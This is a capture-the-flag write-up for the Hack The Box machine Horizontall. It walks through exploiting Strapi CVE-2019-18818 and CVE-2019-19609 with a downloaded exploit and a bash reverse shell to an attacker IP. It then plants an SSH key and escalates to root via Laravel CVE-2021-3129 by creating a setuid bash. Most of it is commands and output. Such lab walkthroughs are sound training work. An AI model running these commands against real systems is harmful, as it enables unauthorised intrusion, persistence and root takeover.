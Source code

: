 # Target
| Category          | Details                                                                       |
|-------------------|-------------------------------------------------------------------------------|
| 📝 **Name**       | [Horizontall](https://app.hackthebox.com/machines/Horizontall)                |  
| 🏷 **Type**       | HTB Machine                                                                   |
| 🖥 **OS**         | Linux                                                                         |
| 🎯 **Difficulty** | Easy                                                                          |
| 📁 **Tags**       | Strapi 3.0.0-beta.17.4, CVE-2019-18818, CVE-2019-19609, Laravel CVE-2021-3129 |

# Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

# Attack path
1. [Gain initial foothold exploiting CVE-2019-18818 and CVE-2019-19609 in Strapi 3.0.0-beta.17.4](#gain-initial-foothold-exploiting-cve-2019-18818-and-cve-2019-19609-in-strapi-300-beta174)
2. [Escalate to `root` user using CVE-2021-3129 in Laravel 8.4.2](#escalate-to-root-user-using-cve-2021-3129-in-laravel-842)

### Gain initial foothold exploiting [CVE-2019-18818](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) and [CVE-2019-19609](https://nvd.nist.gov/vuln/detail/CVE-2019-19609) in Strapi 3.0.0-beta.17.4

#### Add `horizontall.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ echo "$TARGET horizontall.htb" | sudo tee -a /etc/hosts
10.129.176.133 horizontall.htb
```

#### Discover `api-prod` virtual host
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ ffuf -r -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -mc 200 -fs 901
<SNIP>
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20, Duration: 202ms]
```

#### Add `api-prod.horizontall.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ echo "$TARGET api-prod.horizontall.htb" | sudo tee -a /etc/hosts
10.129.176.133 api-prod.horizontall.htb
```

#### Identify Strapi CMS running at `api-prod.horizontall.htb`
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ curl -I api-prod.horizontall.htb
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 15 Sep 2025 18:28:42 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 413
Connection: keep-alive
Vary: Origin
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Last-Modified: Wed, 02 Jun 2021 20:00:29 GMT
Cache-Control: max-age=60
X-Powered-By: Strapi <strapi.io>
```

#### Identify `3.0.0-beta.17.4` version
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```

#### Start `netcat` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
```

#### Exploit [CVE-2019-18818](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) to reset admin password and [CVE-2019-19609](https://nvd.nist.gov/vuln/detail/CVE-2019-19609) to spawn reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ wget https://www.exploit-db.com/raw/50239 -O CVE-2019-18818_CVE-2019-19609.py && python3 CVE-2019-18818_CVE-2019-19609.py http://api-prod.horizontall.htb/
--2025-09-16 07:46:04--  https://www.exploit-db.com/raw/50239
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2509 (2.5K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                                       100%[==========================================================================================================>]   2.45K  --.-KB/s    in 0s      

2025-09-16 07:46:04 (53.7 MB/s) - ‘exploit.py’ saved [2509/2509]

[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzU4MDAxNTY3LCJleHAiOjE3NjA1OTM1Njd9._qcPPU4TAWTTl6Cw16IxjuFMbweQu2i5wQLocmSLUw4


$> /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.34/4444 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

#### Confirm initial foothold gained
```
connect to [10.10.16.34] from (UNKNOWN) [10.129.176.133] 33940
bash: cannot set terminal process group (1963): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ id
id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

#### Upgrade reverse shell connection to SSH using private key
```
strapi@horizontall:~/myapi$ ssh-keygen -t rsa -b 4096 -f /opt/strapi/.ssh/id_rsa -N "" && \
cat /opt/strapi/.ssh/id_rsa.pub >> /opt/strapi/.ssh/authorized_keys && \
chmod 700 /opt/strapi/.ssh && chmod 600 /opt/strapi/.ssh/* &&
cat /opt/strapi/.ssh/id_rsa
Generating public/private rsa key pair.
Your identification has been saved in /opt/strapi/.ssh/id_rsa.
Your public key has been saved in /opt/strapi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:Hsp7YmOoziYtcINomWplPGcA9Dhm5q/JGUdsmSJhf2I strapi@horizontall
The key's randomart image is:
+---[RSA 4096]----+
|..               |
| .o              |
|.B..             |
|*.+.o            |
|o++E..  S        |
|=+O=o+ o .       |
|++o++.o .        |
|=oO . =..        |
|.X+. o.+         |
+----[SHA256]-----+
-----BEGIN RSA PRIVATE KEY-----
<SNIP>>
-----END RSA PRIVATE KEY-----
```

Copy & paste generated key to attack machine and use it to connect.
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ chmod 600 id_rsa && ssh strapi@horizontall.htb -i id_rsa
<SNIP>
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

### Escalate to `root` user using [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129) in Laravel 8.4.2

#### Discover application running on `127.0.0.1:8000`
```
$ netstat -natup
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
<SNIP> 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
<SNIP>
```

#### Setup SSH tunnel to `127.0.0.1:8000`
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ ssh -L 8000:localhost:8000 -Nf strapi@horizontall.htb -i id_rsa
```

#### Identify application using Laravel v8
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ curl -s http://127.0.0.1:8000/ | grep Laravel | tail -n 1 | sed -e 's/^[[:space:]]*//'
Laravel v8 (PHP v7.4.18)
```

#### Create root shell using [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129)
```
┌──(magicrc㉿perun)-[~/attack/HTB Horizontall]
└─$ wget https://www.exploit-db.com/raw/49424 -O CVE-2021-3129.py && \
python3 CVE-2021-3129.py http://127.0.0.1:8000 '../storage/logs/laravel.log' 'cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell'
--2025-09-16 09:28:46--  https://www.exploit-db.com/raw/49424
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4181 (4.1K) [text/plain]
Saving to: ‘CVE-2021-3129.py’

CVE-2021-3129.py                                 100%[==========================================================================================================>]   4.08K  --.-KB/s    in 0s      

2025-09-16 09:28:46 (110 MB/s) - ‘CVE-2021-3129.py’ saved [4181/4181]

/home/magicrc/attack/HTB Horizontall/CVE-2021-3129.py:71: SyntaxWarning: invalid escape sequence '\/'
  command = command.replace('/', '\/')

Exploit...
```

#### Execute root shell as `strapi` user
```
$ /tmp/root_shell -p
root_shell-4.4# id
uid=1001(strapi) gid=1001(strapi) euid=0(root) egid=0(root) groups=0(root),1001(strapi)
```
